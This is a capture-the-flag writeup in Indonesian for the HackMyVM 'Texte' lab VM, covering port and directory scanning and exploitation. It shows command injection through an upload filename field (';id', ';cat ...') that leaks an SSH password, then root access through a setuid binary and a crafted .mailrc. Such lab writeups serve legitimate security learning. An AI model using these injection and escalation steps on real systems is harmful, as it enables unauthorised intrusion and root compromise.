 ```yaml
---
layout: Post
title: HackMyVM - Texte Writeup
date: 2021-10-14 21:31 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/texte.zip">Texte</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">sml</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialan scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/TEXTE] - [10482]
└─[$] nmap -A 192.168.0.197                                                                                                [21:39:14]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-15 21:42 WIB
Nmap scan report for vinci.hmv (192.168.0.197)
Host is up (0.00063s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: TexteBoard
MAC Address: 08:00:27:22:44:E2 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=10/15%OT=22%CT=1%CU=38061%PV=Y%DS=1%DC=D%G=Y%M=080027%
OS:TM=61699366%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4S
OS:T11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=
OS:FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=
OS:M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## Scan Directory

Next setelah kita tahu adanya port 80, kita scan directory apa saja yang ada di web tersebut dengan `gobuster` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/TEXTE] - [10477]
└─[$] gobuster dir -u http://192.168.0.197/  -x php,html,js,txt -w /opt/wordlist/medium.txt                                [21:31:52]
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.0.197/
[+] Threads:        10
[+] Wordlist:       /opt/wordlist/medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,js,txt,php
[+] Timeout:        10s
===============================================================
2021/10/15 21:31:58 Starting gobuster
===============================================================
/index.html (Status: 200)
/upload.php (Status: 200)
===============================================================
```

## Burpsuite

Setelah di scan disini ada file `upload.php`, disini ku menggunakan burp suite untuk mendapatan password dari si user yang ada di vm itu.  Untuk pentest pertama upload dulu file ku saranin gambar biar gampang. Oya untuk vuln kali ini yaitu file yang di upload untuk selebihnya kalian bisa baca disini `https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities`. :

```console
Content-Disposition: form-data; name="myFile"; filename=";id"
Content-Type: image/png

Output :
File uploaded
<img src="data:image/png;base64,uid=33(www-data) gid=33(www-data) groups=33(www-data)
" alt="Happy" />
```

And boom ternyata bisa oke next ku coba melihat isi file nya dengan command `ls -al`. Oya tanda `;` supaya sistem bacanya string :

```console
Content-Disposition: form-data; name="myFile"; filename=";ls -al"
Content-Type: image/png

Output : 
File uploaded
<img src="data:image/png;base64,total 20
drwxr-xr-x 2 root     root     4096 Oct  8 05:43 .
drwxr-xr-x 3 root     root     4096 Oct  8 05:41 ..
-rw-r--r-- 1 www-data www-data  476 Oct  8 05:43 index.html
-rw-r--r-- 1 www-data www-data   23 Oct  8 05:43 uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt
-rw-r--r-- 1 www-data www-data  961 Oct  8 05:43 upload.php
" alt="Happy" />
```

Ada file mencurigakan nih `uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt`. Dan ternyata ketika ku buka terdapat password user ssh kamila :u 

```console
Content-Disposition: form-data; name="myFile"; filename=";cat uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt"
Content-Type: image/png

Output :
File uploaded
<img src="data:image/png;base64,kamila/h*****$$$hahaha
" alt="Happy" />
```

## SSH

Oya setelah dapet akhirnya flag user ku berhasil dapetin :

```console
kamila@texte:~$ ls
user.txt
kamila@texte:~$ cat user.txt 
*****need***
kamila@texte:~$ 
```

Next setelah dapet password dan user SSH gua bakal cek SUID nya untuk dapetin akses root dengan command `find / -perm -4000 -exec ls -la {} \; 2>/dev/null` :

```console
kamila@texte:~$ find / -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-sr-x 1 root kamila 15560 Oct  8 05:46 /opt/texte
-rwsr-xr-- 1 root messagebus 50656 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 534076 Mar 13  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 66292 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 79396 Jul 28 15:09 /usr/bin/su
-rwsr-xr-x 1 root root 43252 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 50720 Jul 28 15:09 /usr/bin/mount
-rwsr-xr-x 1 root root 47908 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 56836 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 30236 Jul 28 15:09 /usr/bin/umount
-rwsr-xr-x 1 root root 86660 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 1457924 Jul 13 12:04 /usr/sbin/exim4                                           
```

Dan ternyata terdapat file binary `texte` setelah ku cek ada register apa saja and boom terdapat `setuid dan setgid`. Oleh karena itu ku manfaatkan , tapi ada ketentuan dimana hanya di `/usr/bin/mail` saja file texte akan bekerja :

```console
kamila@texte:~$ strings /opt/texte 
******
setuid
system
******
/usr/bin/mail -s 'Remember,dont upload PHP files.' kamila@localhost
```

Ku berpikir sejenak akhirnya ku buat file .mailrc dan menambahkan `shell su -l` yang dimana gua akan dapet shell root. Oya gua dapet referensi dari sini `https://mailutils.org/manual/html_section/configuration.html#configuration` : 

```console
kamila@texte:~$ echo 'shell su -l' > .mailrc
kamila@texte:~$ /opt/texte
root@texte:~#                                     
```

And boom dapet shell root gas aja dapetin flagnya : 

```console
root@texte:~# ls
root.txt
root@texte:~# cat root.txt 
I******xtEs
```
